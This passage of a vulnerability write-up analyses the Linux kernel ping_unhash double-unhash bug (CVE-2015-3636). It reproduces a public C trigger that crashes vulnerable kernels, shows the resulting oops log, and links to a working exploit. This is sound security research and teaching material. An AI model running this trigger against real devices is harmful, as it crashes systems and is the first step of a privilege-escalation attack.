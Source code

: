 --A split line--

Whether or not, I will talk about it. When the `ping_unhash()` function is called, it will check that if this `sock` has been hashed before, using `sk_hashed()` macro. The internal code shows us it just check if the  `pprev` of this node equals to `NULL` (that is a null hash list for sure). After that, it will then enter into the following code block and do the *unhash* job, like delete the node from the hash list by calling `hlist_nulls_del()`.

Sounds pretty legitimate, however, after the `hlist_nulls_del()` remove the node, it assigns `LIST_POISON2` to the `pprev` of that node instead of `NULL`, which means another time when `ping_unhash()` is called, the *unhash* job will be handled again.

And that is not what we expect, not at all.

## Triggering

Now we are aimed to trigger this unexpected double unhashing. To save your time, I will directly (shamelessly) use the open-source trigger script and analyze it afterward.

```c++
// trigger.c
int main(int argc, char* argv[])
{
	int sock, ret;
	sock = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);

	struct sockaddr_in sa;
    memset(&sa, 0, sizeof(sa));
    sa.sin_family = AF_INET;
	ret = connect(sock, (const struct sockaddr *) &sa, sizeof(sa));

	sa.sin_family = AF_UNSPEC;
	ret = connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
	ret = connect(sock, (const struct sockaddr *) &sa, sizeof(sa));
	return 0;
}
```

After you compile this code and run it on the vulnerable machine, supported by QEMU. It will stably crash your kernel as below.

```
$ (before you need to adb push the binary and adb shell to that emulator)
$ ./trigger
Unable to handle kernel paging request at virtual address 00200200
pgd = ffffffc03db3b000
[00200200] *pgd=000000007db3e003, *pmd=0000000000000000
Internal error: Oops: 94000046 [#1] SMP
Modules linked in:
CPU: 0 PID: 898 Comm: poc Not tainted 3.10.0+ #1
task: ffffffc03eddd100 ti: ffffffc03db44000 task.ti: ffffffc03db44000
PC is at ping_unhash+0x30/0xa4
LR is at ping_unhash+0x28/0xa4
pc : [<ffffffc0003c4d8c>] lr : [<ffffffc0003c4d84>] pstate: 80000145
sp : ffffffc03db47da0
x29: ffffffc03db47da0 x28: ffffffc03db44000
x27: ffffffc0005dc000 x26: 00000000000000cb
x25: 0000000000000116 x24: 0000000000000015
x23: 0000000000000000 x22: 0000007fef136f6c
x21: 0000000000000010 x20: ffffffc00045a000
x19: ffffffc03db32300 x18: 0000007faa0ce000
x17: 0000007fef1366b0 x16: ffffffc000346e8c
x15: 000000000047c927 x14: 000000000047c903
x13: 0000000000000000 x12: 000000000047c8df
x11: 00000000ffffffff x10: 00000000ffffffff
x9 : 0000000000000000 x8 : 00000000000000cb
x7 : 7f7f7f7f7f7f7f7f x6 : 0000000000000000
```

[^1]: Owe You Android, Yet Another Universal Root. [LINK](https://www.blackhat.com/docs/us-15/materials/us-15-Xu-Ah-Universal-Android-Rooting-Is-Back-wp.pdf)
[^2]: Pwnie for Best Privilege Escalation Bug, 2015. [LINK](https://pwnies.com/archive/2015/nominations/)
[^3]: Bug Patch. [LINK](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=a134f083e79fb4c3d0a925691e732c56911b4326)
[^4]: One workable exploit [LINK](https://github.com/4B5F5F4B/Exploits/tree/master/Linux/CVE-2015-3636)
[^5]: goldfish git repo [LINK](https://android.googlesource.com/kernel/goldfish/+/refs/heads/android-goldfish-3.10-k-dev)